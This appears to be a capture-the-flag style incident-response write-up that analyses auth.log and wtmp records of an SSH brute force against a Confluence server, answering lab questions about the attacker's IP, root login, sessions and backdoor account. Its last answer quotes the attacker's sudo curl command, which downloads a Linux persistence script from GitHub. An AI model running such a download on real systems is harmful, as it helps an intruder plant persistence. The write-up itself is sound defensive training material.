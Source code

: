 # Scenario
You will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

Log files: [Brutus.zip](https://github.com/user-attachments/files/16104805/Brutus.zip) pass: hacktheblue

# Goal
The goal is to analyze the auth.log and the wtmp log files and answer the following questions as part of the incident response:

# Response
### Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?
It appears that the IP 65.2.161.68 continuously keeps failing to authenticate. These logs show someone trying to log in as admin, and the system saying that there is no user admin. These failed login run from 06:31:33 to 06:31:42, suggesting a brute force tool or script is running, as a user at the keyboard could not type that fast:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/9de73f1f-2085-4d7c-8c9b-5e7dce21dc89)

### The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?
Successful authentication as the user `root` at 06:32:44:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/d93da765-46b4-40d2-8fb7-57972efc20b1)

### Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?
2024-03-06 06:32:45

### SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?
37
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/c543c85a-d4a6-465d-bbcc-c7d64c4478bc)

### The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?
cyberjunkie.
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/1531bc2f-6cad-4d58-af23-677b6c24ce55)

### What is the MITRE ATT&CK sub-technique ID used for persistence?
[T1136.001](https://attack.mitre.org/techniques/T1136/001/)

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/78b15345-d619-4edb-b589-fb27cd95a572)

### How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)
Total time of the session is 06:32:45 - 06:37:24, so, 279 seconds

### The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/2265c87d-7012-445c-a50f-c3169a048d31)
